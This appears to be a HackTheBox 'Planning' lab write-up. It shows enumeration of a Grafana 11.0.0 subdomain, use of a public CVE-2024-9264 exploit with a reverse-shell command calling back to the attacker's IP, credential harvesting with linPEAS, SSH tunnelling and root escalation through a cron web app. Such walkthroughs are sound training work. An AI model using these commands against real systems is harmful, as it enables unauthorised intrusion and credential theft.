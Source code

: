 #  HackTheBox: Planning - Writeup
This medium-difficulty box involves discovering a vulnerable Grafana v11.0.0 subdomain and exploiting CVE-2024-9264 for initial access. After pivoting to the user enzo, an internal cronjob web app running as root is accessed via SSH tunneling. Abusing this app allows privilege escalation to root. The box combines web enumeration, real-world CVE usage, and creative privesc via scheduled tasks.


##  Enumeration

### Nmap Scan

We begin with an `nmap` scan, which reveals two open ports:  
- **22** (SSH)  
- **80** (nginx web server)

```bash
nmap -sCV -T4 10.10.11.68
```
### Directory Enumeration
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image002.png)

Upon enumeration of the directories on the web server, nothing of significance comes up.
```bash
gobuster dir -u http://planning.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 --timeout 20s -x html,php
```
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image004.png)

### Subdomain Enumeration
So, ffuf is used to look for any subdomains the web page might have, and it comes up with Grafana.planning.htb.
```bash
ffuf -w ../../seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://planning.htb -H "Host:FUZZ.planning.htb" -fc 301 -t 100
```
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image005.png)
 
After discovering the subdomain grafana, it is appended to the hosts file, so we’re able to access it. 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image007.png)

## Exploitation
Going into the webpage, we see it runs V11.0.0 which is vulnerable to RCE (CVE-2024-9264).
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image009.png)

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image011.png)
 
We then use an exploit found on github by z3k0sec, which allows us to RCE into the system using reverse shell.

```bash
Git clone https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image013.png)

The script is then executed and a listener is set up.

Note: To run the script, you will have to install the requests module through pip (pip install requests), in a python virtual environment.
```bash
python3 poc.py --url http://grafana.planning.htb/ --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.x --reverse-port 1234
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image015.png)

## Post-Exploitation
  
Upon gaining access to the system, we are root but this user doesn’t contain either of the flags, so linPEAS is ran to look for any sensitive information.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image017.png)

### linPEAS Enumeration (root User)

Upon running linPEAS, the password for the user ‘enzo’ is obtained.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image019.png)

Able to SSH into enzo, the user flag is obtained.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image021.png)

### linPEAS Enumeration (enzo User)

linPEAS is ran again, this time in enzo’s user to look for any sensitive files. After which we see some database files.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image023.png)

Exploring the crontab.db, we find a password for the root user. Looking for active connections, we see a webserver being hosted at port 8000.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image025.png)

### SSH Tunneling

Using SSH tunnelling we host it in our own machine, at port 8001. It requires a username and password, available from the crontab.db database.
```bash
ssh -L 8001:localhost:8000 enzo@10.10.11.68
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image027.png)

## Privelege Escalation

The website functions as a cronjobs simulator, executing tasks at a certain time as root. From here we can privilege escalate the enzo’s user as sudo, gaining root privileges.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image029.png)

After obtaining privileges we are able to obtain the root flag.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image031.png)
